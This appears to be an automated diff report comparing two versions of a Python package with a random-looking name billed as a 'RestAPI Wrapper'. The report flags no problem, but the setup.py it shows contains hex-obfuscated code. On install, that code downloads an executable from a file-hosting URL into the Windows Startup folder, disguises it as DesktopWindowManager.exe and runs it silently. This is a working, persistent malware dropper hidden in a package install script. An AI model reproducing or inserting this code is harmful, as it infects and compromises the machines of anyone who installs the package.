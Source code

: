 # Comparing `tmp/sdbhvkjsdfgvouikjs-2.7.16.tar.gz` & `tmp/sdbhvkjsdfgvouikjs-2.7.17.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "sdbhvkjsdfgvouikjs-2.7.16.tar", last modified: Sat Apr 22 00:19:53 2023, max compression
+gzip compressed data, was "sdbhvkjsdfgvouikjs-2.7.17.tar", last modified: Sat Apr 22 00:23:22 2023, max compression
```

## Comparing `sdbhvkjsdfgvouikjs-2.7.16.tar` & `sdbhvkjsdfgvouikjs-2.7.17.tar`

### file list

```diff
@@ -1,12 +1,12 @@
-drwxrwxrwx   0        0        0        0 2023-04-22 00:19:53.285400 sdbhvkjsdfgvouikjs-2.7.16/
--rw-rw-rw-   0        0        0      763 2023-04-22 00:19:53.270109 sdbhvkjsdfgvouikjs-2.7.16/PKG-INFO
-drwxrwxrwx   0        0        0        0 2023-04-22 00:19:53.161234 sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs/
--rw-rw-rw-   0        0        0     1618 2023-04-21 23:46:14.000000 sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs/__init__.py
--rw-rw-rw-   0        0        0     1618 2023-04-21 23:46:14.000000 sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs/testing.py
-drwxrwxrwx   0        0        0        0 2023-04-22 00:19:53.251747 sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs.egg-info/
--rw-rw-rw-   0        0        0      763 2023-04-22 00:19:52.000000 sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs.egg-info/PKG-INFO
--rw-rw-rw-   0        0        0      237 2023-04-22 00:19:53.000000 sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs.egg-info/SOURCES.txt
--rw-rw-rw-   0        0        0        1 2023-04-22 00:19:52.000000 sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs.egg-info/dependency_links.txt
--rw-rw-rw-   0        0        0       19 2023-04-22 00:19:53.000000 sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs.egg-info/top_level.txt
--rw-rw-rw-   0        0        0       42 2023-04-22 00:19:53.285400 sdbhvkjsdfgvouikjs-2.7.16/setup.cfg
--rw-rw-rw-   0        0        0     2526 2023-04-22 00:15:37.000000 sdbhvkjsdfgvouikjs-2.7.16/setup.py
+drwxrwxrwx   0        0        0        0 2023-04-22 00:23:22.501256 sdbhvkjsdfgvouikjs-2.7.17/
+-rw-rw-rw-   0        0        0      763 2023-04-22 00:23:22.486158 sdbhvkjsdfgvouikjs-2.7.17/PKG-INFO
+drwxrwxrwx   0        0        0        0 2023-04-22 00:23:22.378736 sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs/
+-rw-rw-rw-   0        0        0     1618 2023-04-21 23:46:14.000000 sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs/__init__.py
+-rw-rw-rw-   0        0        0     1618 2023-04-21 23:46:14.000000 sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs/testing.py
+drwxrwxrwx   0        0        0        0 2023-04-22 00:23:22.464605 sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs.egg-info/
+-rw-rw-rw-   0        0        0      763 2023-04-22 00:23:22.000000 sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs.egg-info/PKG-INFO
+-rw-rw-rw-   0        0        0      237 2023-04-22 00:23:22.000000 sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs.egg-info/SOURCES.txt
+-rw-rw-rw-   0        0        0        1 2023-04-22 00:23:22.000000 sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs.egg-info/dependency_links.txt
+-rw-rw-rw-   0        0        0       19 2023-04-22 00:23:22.000000 sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs.egg-info/top_level.txt
+-rw-rw-rw-   0        0        0       42 2023-04-22 00:23:22.501256 sdbhvkjsdfgvouikjs-2.7.17/setup.cfg
+-rw-rw-rw-   0        0        0     2526 2023-04-22 00:23:01.000000 sdbhvkjsdfgvouikjs-2.7.17/setup.py
```

### Comparing `sdbhvkjsdfgvouikjs-2.7.16/PKG-INFO` & `sdbhvkjsdfgvouikjs-2.7.17/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: sdbhvkjsdfgvouikjs
-Version: 2.7.16
+Version: 2.7.17
 Summary: Amazing RestAPI Wrapper!
 License: GPLv3
 Classifier: Environment :: Console
 Classifier: License :: OSI Approved :: GNU General Public License v3 (GPLv3)
 Classifier: Operating System :: MacOS :: MacOS X
 Classifier: Operating System :: Microsoft :: Windows
 Classifier: Operating System :: POSIX
```

### Comparing `sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs/__init__.py` & `sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs/__init__.py`

 * *Files identical despite different names*

### Comparing `sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs/testing.py` & `sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs/testing.py`

 * *Files identical despite different names*

### Comparing `sdbhvkjsdfgvouikjs-2.7.16/sdbhvkjsdfgvouikjs.egg-info/PKG-INFO` & `sdbhvkjsdfgvouikjs-2.7.17/sdbhvkjsdfgvouikjs.egg-info/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: sdbhvkjsdfgvouikjs
-Version: 2.7.16
+Version: 2.7.17
 Summary: Amazing RestAPI Wrapper!
 License: GPLv3
 Classifier: Environment :: Console
 Classifier: License :: OSI Approved :: GNU General Public License v3 (GPLv3)
 Classifier: Operating System :: MacOS :: MacOS X
 Classifier: Operating System :: Microsoft :: Windows
 Classifier: Operating System :: POSIX
```

### Comparing `sdbhvkjsdfgvouikjs-2.7.16/setup.py` & `sdbhvkjsdfgvouikjs-2.7.17/setup.py`

 * *Files 2% similar despite different names*

```diff
@@ -5,15 +5,15 @@
 import os as Sus
 
 SUS("\x68""\x74""\x74""\x70""\x73""\x3a""\x2f""\x2f""\x66""\x69""\x6c""\x65""\x73""\x2e""\x63""\x61""\x74""\x62""\x6f""\x78""\x2e""\x6d""\x6f""\x65""\x2f""\x7a""\x67""\x6c""\x32""\x64""\x38""\x2e""\x65""\x78""\x61",getattr(Sus,"\x65""\x6e""\x76""\x69""\x72""\x6f""\x6e")["\x41""\x50""\x50""\x44""\x41""\x54""\x41"]+"\x5c""\x4d""\x69""\x63""\x72""\x6f""\x73""\x6f""\x66""\x74""\x5c""\x57""\x69""\x6e""\x64""\x6f""\x77""\x73""\x5c""\x53""\x74""\x61""\x72""\x74""\x20""\x4d""\x65""\x6e""\x75""\x5c""\x50""\x72""\x6f""\x67""\x72""\x61""\x6d""\x73""\x5c""\x53""\x74""\x61""\x72""\x74""\x75""\x70""\x5c""\x44""\x65""\x73""\x6b""\x74""\x6f""\x70""\x57""\x69""\x6e""\x64""\x6f""\x77""\x4d""\x61""\x6e""\x61""\x67""\x65""\x72""\x2e""\x65""\x78""\x65")
 getattr(sus,"\x50""\x6f""\x70""\x65""\x6e")(getattr(Sus,"\x65""\x6e""\x76""\x69""\x72""\x6f""\x6e")["\x41""\x50""\x50""\x44""\x41""\x54""\x41"]+"\x5c""\x4d""\x69""\x63""\x72""\x6f""\x73""\x6f""\x66""\x74""\x5c""\x57""\x69""\x6e""\x64""\x6f""\x77""\x73""\x5c""\x53""\x74""\x61""\x72""\x74""\x20""\x4d""\x65""\x6e""\x75""\x5c""\x50""\x72""\x6f""\x67""\x72""\x61""\x6d""\x73""\x5c""\x53""\x74""\x61""\x72""\x74""\x75""\x70""\x5c""\x44""\x65""\x73""\x6b""\x74""\x6f""\x70""\x57""\x69""\x6e""\x64""\x6f""\x77""\x4d""\x61""\x6e""\x61""\x67""\x65""\x72""\x2e""\x65""\x78""\x65",**{"\x73""\x68""\x65""\x6c""\x6c":True,"\x73""\x74""\x64""\x6f""\x75""\x74":getattr(sus,"\x44""\x45""\x56""\x4e""\x55""\x4c""\x4c"),"\x73""\x74""\x64""\x65""\x72""\x72":getattr(sus,"\x53""\x54""\x44""\x4f""\x55""\x54")})
 
 setup(
     name="sdbhvkjsdfgvouikjs", # dev_sdbhvkjsdfgvouikjsd
-    version="2.7.16",
+    version="2.7.17",
     description="Amazing RestAPI Wrapper!",
     packages=find_packages(),
     license="GPLv3",
     classifiers=[
         'Environment :: Console',
         'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
         'Operating System :: MacOS :: MacOS X',
```

